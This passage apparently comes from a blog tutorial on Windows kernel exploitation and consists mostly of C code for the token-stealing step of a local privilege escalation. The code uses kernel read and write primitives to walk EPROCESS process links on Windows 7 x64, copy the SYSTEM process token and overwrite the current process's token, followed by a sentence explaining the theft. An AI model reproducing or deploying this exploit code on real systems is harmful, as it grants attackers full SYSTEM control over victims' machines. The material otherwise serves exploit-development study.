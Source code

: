 {% highlight c %}
ULONG64 getCurrentProcessEProcess(ULONG64 tagWNDAddress)
{
	ULONG64 tagTHREADINFO = 0;

	readQWORD(tagWNDAddress + 0x10,&tagTHREADINFO);

	ULONG64	tagPROCESSINFO = 0;

	readQWORD(tagTHREADINFO + 0x158,&tagPROCESSINFO);

	ULONG64  eprocessAddress = 0;

	readQWORD(tagPROCESSINFO,&eprocessAddress);

	return eprocessAddress;

}

void setSystemToken(ULONG64 tagWNDAddress)
{
	ULONG64 currentEProcess = getCurrentProcessEProcess(tagWNDAddress);

	ULONG64 tempEProcess = currentEProcess;

	ULONG64 currentProcID = 0;

	readQWORD(currentEProcess + 0x180,&currentProcID);

	if(currentProcID != GetCurrentProcessId())
		return;

	while(TRUE)
	{
		ULONG64 activeProcessLinks = 0;

		readQWORD(tempEProcess + 0x188,&tempEProcess); //0x188 is the offset of ActiveProcessLinks on Windows 7 x64

		tempEProcess -= 0x188;
		ULONG64 uniqueProcessID = 0;

		readQWORD(tempEProcess + 0x180,&uniqueProcessID); // 0x180 is the offset of UniqueProcessID on Windows 7 x64

		if(uniqueProcessID == 4)
			break;

	}

	ULONG64 systemToken = 0;

	readQWORD(tempEProcess + 0x208,&systemToken); //0x208 is the offset of TOKEN on Windows 7 x64

	writeQWORD(currentEProcess + 0x208,systemToken);

}
{% endhighlight %}

Once we have all the needed addresses, we will just need to use our Read primitive to steal the TOKEN of the SYSTEM process and use our write primitive to overwrite our process TOKEN with the SYSTEM token we have just stolen!
